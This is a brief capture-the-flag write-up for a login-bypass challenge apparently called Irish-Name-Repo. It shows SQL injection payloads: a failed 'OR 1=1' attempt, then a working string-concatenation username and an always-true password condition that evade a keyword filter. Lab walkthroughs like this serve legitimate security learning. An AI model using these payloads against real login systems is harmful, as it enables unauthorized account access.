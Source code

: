 - This chall is same with chall Irish-Name-Repo 1, you have to bypass admin login page by sqli.

- i had tried username: admin' OR 1=1 -- like chall 1 but now i can't access.

![image](https://github.com/user-attachments/assets/683bd4f1-ccd3-4cac-96fd-e6b066e567b9)

- i think in here they have filter 'admin', so i use this username and password to bypass.

- username:ad'||'min
- password: a' IS NOT 'b

![image](https://github.com/user-attachments/assets/05597370-e95d-468e-a7a6-7d2ad3d87c82)
